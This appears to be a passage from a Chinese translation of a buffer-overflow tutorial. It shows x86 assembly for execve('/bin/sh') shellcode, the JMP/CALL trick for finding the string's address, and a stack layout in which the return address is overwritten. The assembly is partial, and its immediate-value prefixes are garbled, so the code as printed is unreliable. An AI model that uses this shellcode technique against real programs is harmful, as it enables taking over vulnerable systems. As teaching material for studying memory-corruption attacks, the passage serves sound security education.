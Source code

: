 试着把这些步骤变成汇编语言, 把字串放到代码后面. 别忘了在数组后面放上字串
地址和空字, 我们有如下的代码:

```
movl string_addr,string_addr_addr
movb x0,null_byte_addr
movl x0,null_addr
movl xb,%eax
movl string_addr,%ebx
leal string_addr,%ecx
leal null_string,%edx
int x80
movl x1, %eax
movl x0, %ebx
int x80
/bin/sh string goes here.
```

问题是我们不知道在要破解的程序的内存空间中, 上述代码(和其后的字串)会被放到哪里. 一种解决方法是使用JMP和CALL指令.JMP和CALL指令使用相对IP的寻址方式, 也就是说我们可以跳到距离当前IP一定间距的某个位置, 而不必知道那个位置在内存中的确切地址. 如果我们在字串`"/bin/sh"`之前放一个CALL指令, 并由一个JMP指令转到CALL指令上. 当CALL指令执行的时候, 字串的地址会被作为返回地址压入堆栈之中. 我们所需要的就是把返回地址放到一个寄存器之中. CALL指令只是调用我们上述的代码就可以了. 假定`J`代表JMP指令, `C`代表CALL指令, `s`代表字串, 执行过程如下所示:

```
内存低地址                                       内存高地址
+----------------------+------+------+------+------+------+
| DDDDDDDDEEEEEEEEEEEE | EEEE | FFFF | FFFF | FFFF | FFFF |
+----------------------+------+------+------+------+------+
| 89ABCDEF0123456789AB | CDEF | 0123 | 4567 | 89AB | CDEF |
+----------------------+------+------+------+------+------+
|       buffer         | sfp  | ret  |  a   |  b   |  c   |
+----------------------+------+------+------+------+------+
| JJSSSSSSSSSSSSSSCCss | ssss | 0xD8 | 0x01 | 0x02 | 0x03 |
+----------------------+------+------+------+------+------+
 ↑|↑             ↑|            |
 +||-------------||------------+ (1)
 +|-------------+|              (2)
 +--------------+              (3)
堆栈顶部                                           堆栈底部
```

运用上述的修正方法, 并使用相对索引寻址, 我们代码中每条指令的字节数目如下:

```
jmp offset-to-call # 2 bytes
popl %esi # 1 byte
movl %esi,array-offset(%esi) # 3 bytes
movb x0,nullbyteoffset(%esi)# 4 bytes
movl x0,null-offset(%esi) # 7 bytes
movl xb,%eax # 5 bytes
movl %esi,%ebx # 2 bytes
leal array-offset(%esi),%ecx # 3 bytes
leal null-offset(%esi),%edx # 3 bytes
int x80 # 2 bytes
movl x1, %eax # 5 bytes
movl x0, %ebx # 5 bytes
int x80 # 2 bytes
call offset-to-popl # 5 bytes
/bin/sh string goes here.
```
